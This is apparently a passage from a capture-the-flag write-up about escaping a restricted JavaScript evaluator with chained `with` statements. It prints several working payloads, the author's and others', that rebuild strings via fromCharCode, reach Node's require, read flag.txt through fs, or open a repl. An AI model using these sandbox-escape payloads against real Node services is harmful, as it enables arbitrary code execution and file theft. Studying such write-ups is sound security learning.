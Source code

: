 Now, the last part is to generate a string. We can do it via `String.fromCharCode`:

``` js
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
with(mainModule)with(require(k))return(String(readFileSync(n)))
```

The final exploit just combined the code above with the structure, I formatted the code a bit for better readability:

``` js
with(
  /with(String)
    with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
      with(mainModule)
        with(require(k))
          return(String(readFileSync(n)))
  /)
with(this)
  with(constructor)
    constructor(source)()
```

### Other solutions

I learned a lot from [Maple](https://blog.maple3142.net/2022/05/03/angstromctf-2022-writeups/)'s writeup, for example, we can use `with(a=source,/b/)` to deal with the shadowing problem.

``` js
with(/a/)with(/b/)console.log(source)
```

You can only get `/b/.source`, not `/a/.source` because it's shadowed. We can solve this by assigning the value to a variable before next `with`:

``` js
with(/a/)with(a=source,/b/)console.log(a,source)
```

Apart from these, he also uses `require('repl').start()` to start the repl mode, it's a very smart move because you can run any code without the length limit.

Below is Maple's payload:

``` js
with(/with(process)with(mainModule)with(require(x))start()/)
  with(s1=source,/x/)
  with(s2=source,/repl/)
  with(s3=source,this)
    with(constructor)
      constructor(s2,s1)(s3)
```

Here is the payload from the author, the intended is without regexp:

``` js
with(String)
  with(f=fromCharCode,this)
    with(constructor)
      with(constructor(f(r=114,101,t=116,117,r,110,32,112,r,111,99,101,s=115,s))())
        with(mainModule)
          with(require(f(102,s)))
            readFileSync(f(102,108,97,103,46,t,120,t))
```
